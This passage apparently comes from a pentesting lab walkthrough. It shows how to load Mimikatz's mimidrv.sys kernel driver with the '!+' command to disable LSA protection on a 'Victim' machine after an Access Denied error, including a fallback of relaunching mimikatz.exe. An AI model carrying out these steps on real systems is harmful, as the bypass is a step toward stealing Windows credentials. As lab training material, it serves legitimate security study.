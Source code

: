 <figure><img src="../../.gitbook/assets/image (9) (1) (4).png" alt=""><figcaption></figcaption></figure>

The command returns a 0x00000005 error code message (Access Denied). Lucky for us, Mimikatz provides a mimidrv.sys driver that works on kernel level to disable the LSA protection. We can import it to Mimikatz by executing "!+" as follows,

**Victim(mimikatz)**

```
!+
```

<figure><img src="../../.gitbook/assets/image (4) (11) (1).png" alt=""><figcaption></figcaption></figure>

Note: If this fails with an `isFileExist` error, exit mimikatz, navigate to `C:\Tools\Mimikatz\` and run the command again.\


**Victim(cmd)**

```
cd C:\Tools\Mimikatz
mimikatz.exe
```

**Victim(mimikatz)**

```
!+
```

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>
